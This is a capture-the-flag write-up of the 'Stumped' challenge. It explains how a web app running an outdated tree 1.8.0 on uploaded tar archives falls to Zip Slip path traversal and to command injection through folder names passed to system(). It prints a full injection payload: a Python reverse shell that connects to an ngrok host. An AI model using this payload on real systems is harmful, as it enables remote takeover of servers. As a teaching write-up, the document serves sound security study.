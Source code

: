 # PWN: Stumped
solver: [N04M1st3r](https://github.com/N04M1st3r)  
writeup-writer: [L3d](https://github.com/imL3d)  

**Description:**
> Michael's computer science project shows the structure of tar files. It is using the tree command on the backend, and something just doesn't seem right...

**files (copy):** [app.py](files/app.py)  
**screenshot:** [homepage](images/stumpedhome.png)

In this challenge we receive a site (and it's code) that runs the unix [tree](https://linux.die.net/man/1/tree) command on an uploaded tar archive. We need to exploit this site and get user access.

## Solution 🌳
When uploading a tar archive to the site to extract, we can write to anywhere on our system via carefully naming our folders. For example, if we have an archive with the path in it (the folder names are `..`): `../../../folder1/file1.txt` we can write into a folder called `folder1` that is 3 directories above us. This is due to an exploit known as [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability).  
Our first attempt of breaching this machine was to try and override some important file, in order to get and RCE or expose this machine to the internet. This was incredibly difficult since we didn't really have any information whatsoever on where this code was running from, or what with what privileges - so we abandoned the idea.  
  
After messing around a bit more with the site we noticed something about the text on it - it was powered via the `tree` command on version `1.8.0`. Also when uploading a tar archive the tree command displays in HTML output it's version which was, as expected `1.8.0`. We started to check the versions on our personal machines and compare them with the server's version - and we found it was outdated! (Except one of our teammates who had a depricated version which bugged us for a while 😅). Could we someohow exploit this old version?????  
So, the search for the source code of this version began (or at least the release notes). Finding the entire source code was surprisingly difficult, but we managed to find it at the end -  [the source code](https://salsa.debian.org/debian/tree-packaging).  
  
 Looking at the changelog of the version that followed `1.8.0`:
 ```
  - -R option now recursively calls the emit_tree() function rather than using
 system() to re-call tree.  Also removes a TODO.
 ```
 BINGO! the `-R` option uses `system`, and we can exploit that to inject our OWN bash code.  
 This can be easily seen when looking at the code from the old version: 
 ```C
hcmd = xmalloc(sizeof(char) * (49 + strlen(host) + strlen(d) + strlen((*dir)->name)) + 10 + (2*strlen(path)));
sprintf(hcmd,"tree -n -H \"%s%s/%s\" -L %d -R -o \"%s/00Tree.html\" \"%s\"\n", host,d+1,(*dir)->name,Level+1,path,path);
system(hcmd);
``` 
  
In order to exploit this we need to name one of our inside folders in the archive in a special way, to include the code that we want to run on the server (we went with a python reverse shell in this case):  
```
In a tar folder, zip the following:

folder1->folder2->(injection folder)
injection folder name (the quotes are part of the name): ";python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.eu.ngrok.io",16642));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["x2fbinx2fsh","-i"]);' ;echo "
```
We we upload the tar archive with this folder we get a reverse shell, and then quickly after the flag🚩:
```
$ cat flag.txt
flag{n0t_5tump3d_4nym0r3!}
```
---
This was a creative challenge that reminded us about updating our versions and not letting strangers upload tar archives into our servers.  
Also props to  [N04M1st3r](https://github.com/N04M1st3r) for having the motivation to pull this one off ;)
  
![isitpwn.gif](images/isitpwn.gif)
